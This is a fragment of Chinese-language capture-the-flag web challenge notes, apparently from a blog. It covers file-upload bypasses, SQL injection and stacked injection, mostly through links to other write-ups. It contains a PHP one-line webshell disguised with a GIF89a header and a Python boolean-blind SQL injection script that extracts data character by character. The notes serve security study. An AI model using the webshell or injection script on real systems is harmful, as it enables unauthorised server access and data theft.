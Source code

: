 

![img](https://img-blog.csdnimg.cn/30972a734680467586d088ad5370d6c6.png)



上传.user.ini配置文件使一句话木马可以连接 

```php
GIF89a
<script language="php"> eval($_REQUEST[123])</script>
```





## [GXYCTF2019]BabyUpload

与上一题基本一样，加上了[MRCTF2020]你传你🐎呢题中.htaccess配置文件的上传。



## [GXYCTF2019]BabySQli

[[GXYCTF2019\]BabySQli 1_林本的博客-CSDN博客](https://blog.csdn.net/qq_43618536/article/details/125577754)



## [GYCTF2020]Blacklist

堆叠注入：[[GYCTF2020\]Blacklist 1 - WeQi_Blog - 博客园 (cnblogs.com)](https://www.cnblogs.com/WeQi-Blog/p/15467473.html)

[堆叠注入tips - MustaphaMond - 博客园 (cnblogs.com)](https://www.cnblogs.com/20175211lyz/p/12356678.html)



## [CISCN2019 华北赛区 Day2 Web1]Hack World

```cpp
import requests
import string
import time

timeout = None

def bool_blind(url, flag_length):

    flag = ''
    strings = string.printable

    for i in range(1, flag_length + 1):
        current_char = None

        for j in strings:
            time.sleep(0.1)
            payload = f"(SELECT CASE WHEN SUBSTRING(flag, {i}, 1) = '{j}' THEN 1 ELSE 0 END FROM flag)"
            post_data = {'id': payload}
            r = requests.post(url, data=post_data)

            if 'Hello' in r.text:
                current_char = j
                break

        if current_char:
            flag += current_char
            print(f"Flag so far: {flag}")

```